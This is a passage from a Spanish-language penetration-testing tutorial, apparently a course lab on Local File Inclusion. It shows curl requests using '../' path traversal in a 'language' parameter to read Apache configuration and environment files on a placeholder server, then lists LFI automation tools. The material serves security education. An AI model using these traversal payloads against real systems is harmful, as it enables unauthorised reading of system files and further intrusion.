 ```r
curl http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/apache2/apache2.conf

...SNIP...
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
...SNIP...
```

Como podemos ver, obtenemos la ruta del webroot predeterminada y la ruta de los logs. Sin embargo, en este caso, la ruta de los logs está usando una variable global de apache (`APACHE_LOG_DIR`), que se encuentra en otro archivo que vimos arriba, que es (`/etc/apache2/envvars`), y podemos leerlo para encontrar los valores de las variables:

```r
curl http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/apache2/envvars

...SNIP...
export APACHE_RUN_USER=www-data
export APACHE_RUN_GROUP=www-data
# temporary state file location. This might be changed to /run in Wheezy+1
export APACHE_PID_FILE=/var/run/apache2$SUFFIX/apache2.pid
export APACHE_RUN_DIR=/var/run/apache2$SUFFIX
export APACHE_LOCK_DIR=/var/lock/apache2$SUFFIX
# Only /var/log/apache2 is handled by /etc/logrotate.d/apache2.
export APACHE_LOG_DIR=/var/log/apache2$SUFFIX
...SNIP...
```

Como podemos ver, la variable (`APACHE_LOG_DIR`) está configurada en (`/var/log/apache2`), y la configuración anterior nos dijo que los archivos de log son `/access.log` y `/error.log`, los cuales hemos accedido en la sección anterior.

**Nota:** Por supuesto, simplemente podemos usar una wordlist para encontrar los logs, ya que múltiples wordlists que usamos en esta sección mostraron la ubicación del log. Pero este ejercicio nos muestra cómo podemos recorrer manualmente los archivos identificados y luego usar la información que encontramos para identificar más archivos e información importante. Esto es bastante similar a cuando leemos diferentes fuentes de archivos en la sección `PHP filters`, y tales esfuerzos pueden revelar información previamente desconocida sobre la aplicación web, que podemos usar para explotarla aún más.

---

## LFI Tools

Finalmente, podemos utilizar una serie de herramientas LFI para automatizar gran parte del proceso que hemos estado aprendiendo, lo que puede ahorrar tiempo en algunos casos, pero también puede pasar por alto muchas vulnerabilidades y archivos que de otro modo identificaríamos mediante pruebas manuales. Las herramientas LFI más comunes son [LFISuite](https://github.com/D35m0nd142/LFISuite), [LFiFreak](https://github.com/OsandaMalith/LFiFreak), y [liffy](https://github.com/mzfr/liffy). También podemos buscar en GitHub varias otras herramientas y scripts LFI, pero en general, la mayoría de las herramientas realizan las mismas tareas, con niveles variados de éxito y precisión.
